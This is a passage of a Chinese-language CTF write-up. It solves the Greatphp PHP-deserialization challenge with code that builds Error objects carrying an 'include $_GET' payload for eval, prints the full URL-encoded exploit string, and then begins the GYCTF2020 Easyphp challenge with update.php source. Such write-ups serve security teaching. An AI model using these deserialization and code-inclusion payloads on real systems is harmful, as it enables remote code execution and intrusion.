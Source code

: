 ```php
$str = "?><?=include $_GET[_]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>

```

这里payload前加了`?>`是因为Error返回的信息在代码前还有类似于`Error:`的前缀，传到`eval`函数中就会编程`eval("Error<?xxxxxxx?>")`会产生报错，所以先闭合

```php
O%3A8%3A%22SYCLOVER%22%3A2%3A%7Bs%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22%3F%3E%3C%3F%3Dinclude%7E%D0%99%93%9E%98%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A79%3A%22C%3A%5CUsers%5CSprint%2351264%5CDesktop%5Cpayload%5Cbuuctf%5C%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98+2020%5DGreatphp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7Ds%3A5%3A%22lover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22%3F%3E%3C%3F%3Dinclude%7E%D0%99%93%9E%98%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A79%3A%22C%3A%5CUsers%5CSprint%2351264%5CDesktop%5Cpayload%5Cbuuctf%5C%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98+2020%5DGreatphp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D
```


# [GYCTF2020]Easyphp【留坑-反序列化】

www.zip下载源码

update.php
```php

<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>

```
登陆成功即可获取flag，此处会创建一个新用户类，执行update()函数
看一下lib.php
